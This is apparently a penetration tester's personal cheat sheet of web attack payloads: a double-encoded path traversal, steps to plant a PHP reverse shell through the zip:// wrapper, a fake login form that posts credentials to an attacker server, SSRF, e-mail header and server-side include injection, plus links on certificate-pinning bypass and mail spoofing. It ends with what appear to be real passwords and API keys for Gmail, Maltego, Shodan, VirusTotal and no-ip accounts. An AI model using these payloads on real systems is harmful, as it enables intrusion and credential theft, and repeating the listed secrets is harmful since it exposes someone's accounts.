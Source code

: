 /..%252f..%252f..%252f..%252f..%252f..%252fwindows/System32/drivers/etc/hosts -- double URL encode

1. Create a PHP reverse shell
2. Compress to a .zip file
3. Upload the compressed shell payload to the server
4. Use the zip wrapper to extract the payload using: php?page=zip://path/to/file.zip%23shell
5. The above will extract the zip file to shell, if the server does not append .php rename it to shell.php instead



HTML Template Injection: 
http://127.0.0.1/vulnerable.php?name=<h3>Please Enter Your Username and Password to Proceed:</h3><form method="POST" action="http://attackerserver/login.php">Username: <input type="text" name="username"/><br/>Password: <input type="password" name="password" /><br /><input type="submit" value="Login" /></form><!--

HTML injection :   <iframe src="https://www.provensec.com" width="500" height="500"></iframe>



Four Ways to Bypass Android SSL Verification and Certificate Pinning
https://blog.netspi.com/four-ways-bypass-android-ssl-verification-certificate-pinning/
https://www.frida.re/



SSRF Injection Payloads 
                        	GET /?url=http://localhost/server-status HTTP/1.1
                        	Scanme.nmap.org:80
https://github.com/trapp3rhat/SSRF-Injection



e-mail header injection
mailto2340%40gmail.com%5Cnbcc%3Amailto2342%40gmail.com
tester@test.com\nbcc:test@test.com





server side includes
	<!--#exec cmd="ls -l" -->

	
Mail Spoofing 
	https://emkei.cz/


	

username:  hashmax
gmail1:		mailto2340@gmail.com
gmail2:		mailto2342@gmail.com
Password;  Hasher@123 / M0#17verma


maltego: insert.passkey@gmail.com/mv3waxEz
shodan api key:  YeBRyXdz3AcznYgPe5SCy4K94fQBmlKG  
virustotal api key: 2fa31cfb8a53c66bbadd8d9ddf3901639efe4ebd884175bcf82f789d4162d04f


noip  
mail:    hutikiceh@air2token.com
pass :1234567890
username: testerup123
